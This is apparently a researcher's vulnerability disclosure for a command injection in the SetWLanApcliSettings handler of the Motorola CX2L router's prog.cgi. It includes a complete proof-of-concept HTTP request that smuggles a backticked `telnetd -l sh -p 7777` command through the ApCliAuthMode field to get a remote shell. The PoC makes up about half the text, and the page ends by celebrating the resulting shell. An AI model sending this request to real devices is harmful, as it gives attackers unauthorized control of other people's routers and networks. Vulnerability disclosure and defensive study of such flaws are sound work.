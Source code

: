 # Motorola Vulnerability

Vendor:Motorola

Product:CX2L

Version:1.0.1

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in Motorola router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `prog.cgi` binary:

In `SetWLanApcliSettings` function, `ApCliAuthMode、ApCliChannel、ApCliEncrypType、ApCliKeyStr` is directly passed by the attacker, so we can control the `ApCliAuthMode、ApCliChannel、ApCliEncrypType、ApCliKeyStr` to attack the OS.

As you can see here, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `ApCliAuthMode` as **`telnetd -l sh -p 7777`** , and the router will excute it,such as:

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.51.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetWLanApcliSettings"
HNAP_AUTH: BA04657DE4DBF5C4CB9221E91B06F3C2 1749737475183
Content-Length: 380
Origin: http://192.168.51.1
Connection: close
Referer: http://192.168.51.1/Home.html
Cookie: work_mode=repeater; uid=B3MYQlE9; PrivateKey=274ABC3CE9489A7F56A25AA68BF7D6C3; timeout=22

{"SetWLanApcliSettings":{"ApCliSsid":"TOTOLINK_A720R","ApCliBssid":"40:ee:15:91:6f:cc","ApCliChannel":"9","ApCliAuthMode":"`telnetd -l sh -p 7777`","ApCliEncrypType":"NONE","wl(0).(0)_bw":"1","ApCliKeyStr":"cc52be2e1e3af6ebb16865d23dd6b824cc52be2e1e3af6ebb16865d23dd6b824cc52be2e1e3af6ebb16865d23dd6b824cc52be2e1e3af6ebb16865d23dd6b824","wl(0).(0)_ssid_hidden":"0","Mode":"2.4G"}}
```



## Result

Get a shell!

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

